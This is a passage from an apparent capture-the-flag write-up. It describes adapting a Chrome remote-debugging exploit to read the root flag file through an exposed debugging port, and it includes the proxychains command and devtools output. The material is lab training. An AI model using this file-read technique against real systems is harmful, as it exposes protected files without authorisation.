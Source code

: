 Modifying a couple of things:

- Changing the `victim` to `127.0.0.1`.
- Making it possible to pass the target `port` as command line argument.
- Changing the url from `file:///etc/passwd` to `file:///root/root.txt`.

Now, when I see Chrome running next time, I will run the exploit using proxychains with the port specified in the `--remote-debugging-port` argument.

After a couple of failed attempts, I got the root flag.

```console
$ proxychains -q ./chrome_remote_debug_lfi.py 44523
ws://127.0.0.1:44523/devtools/page/3FC55BCC759CB7D158BDB700C2E84ADE
{"id":3592,"result":{"frameId":"3FC55BCC759CB7D158BDB700C2E84ADE","loaderId":"B35E879C2B29484750665A8B1EF9A15A"}}
{"id":3593,"result":{"result":{"type":"string","value":"<html><head></head><body><pre style=\"word-wrap: break-word; white-space: pre-wrap;\">[REDACTED]\n</pre></body></html>"}}}
```
